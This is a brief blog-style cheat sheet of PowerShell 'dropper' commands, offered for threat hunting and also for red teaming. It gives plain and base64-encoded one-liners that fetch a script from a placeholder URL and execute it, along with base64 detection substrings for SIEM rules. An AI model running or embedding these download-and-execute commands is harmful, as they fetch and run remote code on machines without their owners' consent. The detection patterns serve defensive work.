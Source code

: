 ```yaml
---
layout: post
title:  "Powershell for Red Teaming"
date:   2025-06-16 21:00:00 +1000
categories: scripts
---
```


## Red teaming powershell scripts. Droppers and more.

Things to look out for when threat hunting and creating SIEM rules. Also helpful for red teaming/malware development

---

### Droppers
--- Unencoded Droppers ---
- ``` powershell -Command "Invoke-WebRequest -Uri 'https://google.com/safe-script.ps1' -OutFile $env:TEMP\Word.ps1; & $env:TEMP\Word.ps1" ``` (Downloads to disk)
- ``` powershell -Command "iex(New-Object Net.WebClient).DownloadString('https://google.com/safe-script.ps1')" ``` (Downloads to memory)

--- Encoded Droppers ---
- ```powershell -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAC0AQwBvAG0AbQBhAG4AZAAgACIASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcABzADoALwAvAGcAbwBvAGcAbABlAC4AYwBvAG0ALwBzAGEAZgBlAC0AcwBjAHIAaQBwAHQALgBwAHMAMQAnACAALQBPAHUAdABGAGkAbABlACAAJABlAG4AdgA6AFQARQBNAFAAXABXAG8AcgBkAC4AcABzADEAOwAgACYAIAAkAGUAbgB2ADoAVABFAE0AUABcAFcAbwByAGQALgBwAHMAMQAiAA==```
- ```powershell -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAC0AQwBvAG0AbQBhAG4AZAAgACIAaQBlAHgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AZwBvAG8AZwBsAGUALgBjAG8AbQAvAHMAYQBmAGUALQBzAGMAcgBpAHAAdAAuAHAAcwAxACcAKQAiAA==```

Patterns to look out for when threat hunting as potentially malicious base64 encoded commands
- SQBuAHYAbwBrAGUALQBX (Invoke-WebRequest)
- aQBlAHgAIAAoAE4AZQB3 (iex (New-Object Net.WebClient))

